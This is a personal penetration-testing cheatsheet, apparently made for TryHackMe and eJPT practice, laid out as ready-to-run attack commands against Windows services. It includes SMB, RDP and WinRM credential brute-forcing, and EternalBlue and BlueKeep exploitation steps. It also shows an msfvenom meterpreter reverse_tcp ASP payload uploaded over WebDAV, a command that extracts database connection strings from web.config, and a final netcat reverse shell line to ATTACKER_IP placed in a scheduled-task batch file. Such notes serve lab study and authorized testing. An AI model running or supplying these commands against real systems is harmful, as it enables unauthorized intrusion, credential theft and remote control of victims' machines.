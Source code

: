 ___
* A cheatsheet that will help with ennumaration and different technics - **Str4ngerX**
* **Tryhackme :** https://tryhackme.com/p/Str4ngerX
* **LinkedIn : **https://www.linkedin.com/in/alaloghmari/
___
# Contents 
___
* ##### [Protocols](#Protocols)
* ##### [Privilege Escalation](#Privilege%20Escalation)
* ##### [Reverse Shell](#Reverse%20Shell)
___
# ⚠️ Important Links : 

>[!warning] Links
>- ##### https://blog.syselement.com/ine/courses/ejpt/ejpt-cheatsheet  (Cheatsheet)

___
# Protocols

- #### **SMB :**

>[!warning] Info
>- Utilizing PsExec (telnet replacement made by microsoft) to gain access to run commands on target.
>- **Download :** https://github.com/fortra/impacket/blob/master/examples/psexec.py

1. **PsExec :** 

```bash
# Before using PsExec we need to gain the credentials via BruteForce.
msfconsole
		-> use auxiliary/scanner/smb/smb_login
		-> set RHOSTS, RPORT, PASS_FILE, USER_FILE
		-> run

# Running a python implementation of the real PsExec.
psexec.py USERNAME@IP_ADRESSE cmd.exe

# Use of Metasploit to execute PsExec.
msfconsole
	-> use exploit/windows/smb/psexec
```

2. **EternalBlue (MS17-010) :**

>[!warning] Infected Versions
>‎ ‎ ‎ ‎ ‎ ‎ ‎ ‎ ‎ ‎ ‎ ‎ ‎ ‎ ‎ ‎ ‎ ‎ ‎  ‎ ‎ ‎ ‎ ‎ ‎ ‎ ‎ ‎ ‎ ‎ ‎ ‎ ‎ ‎ ‎ Windows Vista‎ ‎ ‎ ‎ ‎ ‎ ‎ ‎ |‎ ‎ ‎ Windows Server 2008
>‎ ‎ ‎ ‎ ‎ ‎ ‎ ‎ ‎ ‎ ‎ ‎ ‎ ‎ ‎ ‎ ‎ ‎ ‎ ‎ ‎ ‎ ‎ ‎ ‎ ‎ ‎ ‎ ‎ ‎  ‎ ‎ ‎ ‎ ‎ Windows 7‎ ‎ ‎ ‎ ‎ ‎ ‎ ‎ ‎ ‎ ‎ ‎ ‎ ‎ |‎ ‎ ‎ Windows Server 2012
>‎ ‎ ‎ ‎ ‎ ‎ ‎ ‎ ‎ ‎ ‎ ‎ ‎ ‎ ‎ ‎ ‎ ‎ ‎ ‎ ‎ ‎ ‎ ‎ ‎ ‎ ‎ ‎ ‎ ‎ ‎ ‎ ‎ ‎ ‎ Windows 8.1‎ ‎ ‎ ‎ ‎ ‎ ‎ ‎ ‎ ‎ ‎ ‎ ‎‎|‎ ‎ ‎ ‎ Windows Server 2016
>‎ ‎ ‎ ‎ ‎ ‎ ‎ ‎ ‎ ‎ ‎ ‎ ‎ ‎ ‎  ‎ ‎ ‎ ‎ ‎ ‎ ‎ ‎ ‎ ‎ ‎ ‎ ‎ ‎ ‎ ‎ ‎ ‎ ‎ ‎ Windows 10
>
>- **Download : ** https://github.com/3ndG4me/AutoBlue-MS17-010.git

```bash
# Check for the vulnerability using Nmap & Msfconsole.
sudo nmap -sV -p 445 --script=smb-vuln-ms17-010 -O TARGET_IP
msfconsole
	-> use auxiliary/scanner/smb/smb_ms17_010

# Manual Exploit (AutoBlue-MS17-010)
git clone https://github.com/3ndG4me/AutoBlue-MS17-010.git
cd AutoBlue-MS17-010 && pip install -r requirements.txt # Dependencies.
cd shellcode && chmod +x shell_prep.sh
./shell_prep.sh # Generating the payload.
nc -lnvp LPORT # Setting up a listener.
cd .. && python3 eternalblue_exploit7.py TARGET_IP shellcode/sc_x64.bin

# Automatic Exploit Using Msfconsole.
msfconsole
	-> use exploit/windows/smb/ms17_010_eternalblue
```

- #### **RDP :**

1. **Bruteforce & connect :** 

```bash
# Checking for rdp.
msfconsole
	-> use auxiliary/scanner/rdp/rdp_scanner
	-> set RHOST, RPORT

# Brute forcing credentials.
hydra -L USER_WORDLIST -P PASS_WORDLIST TARGEET_IP -s RPORT RDP

# Connecting to RDP
xfreerdp /u:USERNAME /p:PASSWORD /v:TARGET_IP:RPORT
```

2. **BlueKeep (CVE-2019-0708) :**

>[!warning] Infected Versions
>‎ ‎ ‎ ‎ ‎ ‎ ‎ ‎ ‎ ‎ ‎ ‎ ‎ ‎ ‎ ‎ ‎ ‎ ‎  ‎ ‎ ‎ ‎ ‎ ‎ ‎ ‎ ‎ ‎‎ ‎ ‎ ‎ ‎ ‎ Windows Vista‎ ‎ ‎ ‎ ‎ ‎ ‎ ‎ |‎ ‎ ‎ Windows Server 2008 & R2
>‎ ‎ ‎ ‎ ‎ ‎ ‎ ‎ ‎ ‎ ‎ ‎ ‎ ‎ ‎ ‎ ‎ ‎ ‎ ‎ ‎ ‎ ‎ ‎ ‎ ‎ ‎ ‎ ‎ ‎  ‎ ‎ ‎ ‎‎ Windows XP‎ ‎ ‎ ‎ ‎ ‎ ‎ ‎ ‎ ‎
>‎ ‎ ‎ ‎ ‎ ‎ ‎ ‎ ‎ ‎ ‎ ‎ ‎ ‎ ‎ ‎ ‎ ‎ ‎ ‎ ‎ ‎ ‎ ‎ ‎ ‎ ‎ ‎‎ ‎ ‎ ‎‎ ‎ ‎ ‎‎ ‎‎ Windows 7‎ ‎ ‎ ‎ ‎ ‎ ‎ ‎ ‎ ‎ ‎ ‎ ‎‎
>
>‎ ‎ ‎ ‎ ‎ ‎ ‎ ‎ ‎ ‎ ‎ ‎ ‎ ‎ ‎ ‎ ‎ ‎ ‎ ‎ ‎ ‎ ‎ ‎ ‎ ‎ ‎ ‎‎ ‎ ‎ ‎ ‎ ‎ ‎‎ ‎ ‎ ‎ ‎ ‎ ‎‎ ‎ ‎ ‎ ‎ ‎ ‎‎ ‎ ‎ ‎‎ ‎ ‎ ‎‎ ‎‎ **Only x64 Versions of Windows**

```bash
# Metasploit Exploitation.
msfconsole
	-> search BlueKeep
	-> use ....
	-> show targets # Choosing a target/windows version : This is mendatory !
	-> set target [number]
	
```

- #### **WinRM :**

```bash
crackmapexec [OPTIONS]
evil-winrm -i IP -u USER -p PASSWORD

nmap --top-ports 7000 TARGET_IP
nmap -sV -p 5985 TARGET_IP
```

```bash
crackmapexec winrm <TARGET_IP> -u <USER> -p /usr/share/metasploit-framework/data/wordlists/unix_passwords.txt

crackmapexec winrm <TARGET_IP> -u <USER> -p <PW> -x "whoami"

crackmapexec winrm <TARGET_IP> -u <USER> -p <PW> -x "systeminfo"
```

```bash
# Command Shell
evil-winrm.rb -u <USER> -p '<PW>' -i <TARGET_IP>
```

2. **Metasploit :** 

```bash
## METASPLOIT

# Global set
setg RHOSTS <TARGET_IP>
setg RHOST <TARGET_IP>

# Brute force creds
use scanner/winrm/winrm_login
set USER_FILE /usr/share/metasploit-framework/data/wordlists/common_users.txt
set PASS_FILE /usr/share/metasploit-framework/data/wordlists/unix_passwords.txt

# exploit
use exploit/windows/winrm/winrm_script_exec
set USERNAME <USER>
set PASSWORD <PW>
set FORCE_VBS true

# Meterpreter Commands
sysinfo
getuid 
```

# Privilege Escalation

- #### **IIS (Internet Information Services) :**

>[!info]-
>Internet Information Services (IIS) is the default web server on Windows installations

>[!example]- List of IIS Configuration Files
>- **C:\inetpub\wwwroot\web.config**
>- **C:\Windows\Microsoft.NET\Framework64\v4.0.30319\Config\web.config**

>[!tip]- 
> Quick Way Finding Database Connection Strings :
>```powershell
>type C:\Windows\Microsoft.NET\Framework64\v4.0.30319\Config\web.config | findstr connectionString
>```

```bash
# Exploiting WebDav at /webdav/ : can be uncovered using nmap/gobuster/..
# If credentials (popup) are asked, a bruteforce attack can solve the problem.
hydra -l bob -P ~/Desktop/rockyou.txt 10.10.179.38 http-get /webdav/ -V -I

# Testing what types of files to upload & executed in order to gain a reverse shell.
davtest -auth bob:password -url http://10.10.179.38/webdav/

# Uploading & Executing using cadaver.
msfvenom -p windows/meterpreter/reverse_tcp LHOST=Attacker_IP LPORT=Attacker_PORT -f asp -o shell.asp
cadaver http://10.10.179.38/webdav/ # Will be asked for credentials.
	-> put shell.asp # File can be generated using msfvenom.

# Set up a handler/listener.
msfconsole
	-> use multi/handler
	-> set payload windows/meterpreter/reverse_tcp
	-> show options
```

- #### Scheduled Tasks :

```powershell
# List scheduled tasks.
schtasks

# Retrieve information about any of the services.
schtasks /query /tn vulntask /fo list /v

# Run a scheduled task (if permitted).
schtasks /run /tn vulntask

# Check permissions on an executable.
icacls
```
# Reverse Shell

```powershell
# Writing the command in the file.bat then run it.
# nc64 should be on the victiim machine.
echo c:\tools\nc64.exe -e cmd.exe ATTACKER_IP 4444 > C:\tasks\file.bat

# On Attacker's Machine.
nc -lvp 4444
```